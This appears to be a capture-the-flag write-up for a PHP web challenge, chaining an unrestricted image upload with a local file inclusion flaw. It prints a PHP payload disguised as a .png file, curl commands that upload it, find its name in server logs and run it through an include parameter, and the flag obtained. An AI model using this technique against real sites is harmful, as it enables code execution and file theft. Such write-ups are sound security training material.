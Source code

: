 ![[Pasted image 20250228211743.png]]

check .zip file:

upload.php
#### **Unrestricted File Upload**

I can upload a file with a .png extension and put some PHP code inside.
![[Pasted image 20250228222819.png]]
#### **Local File Inclusion (LFI)**

![[Pasted image 20250228223154.png]]

With the LFI vulnerability, I can execute an arbitrary file

#### **Step 1: Upload the PHP File**

Create a file named `exploit.png` containing the following PHP code:

```php
<?php echo file_get_contents("/flag.txt"); ?>
```

![[Pasted image 20250228220651.png]]

Then, upload it using `curl`:

```bash
curl -X POST -F "image=@exploit.png" http://challenge.ctf.games:32025/upload.php
```

![[Pasted image 20250228220817.png]]
#### **Step 2: Find the Uploaded File Name**

Log.php:
![[Pasted image 20250228221906.png]]
1. Access the server logs:
```bash
    curl http://challenge.ctf.games:32025/logs/site_log.txt
```

![[Pasted image 20250228221255.png]]

2. Extract the filename:

```bash 
FILENAME="67c2252db47f9_exploit.png"
```

#### **Step 3: Execute the PHP Code via LFI**

Use the Local File Inclusion (LFI) vulnerability to execute the uploaded file:

```bash
curl "http://challenge.ctf.games:32025/conspiracy.php?language=uploads/67c2252db47f9_exploit.png"
```
- The PHP code will execute, and the flag will be displayed in the response.

![[Pasted image 20250228222243.png]]
```
flag{6558608db040d1c64358ad536a8e06c6}
```
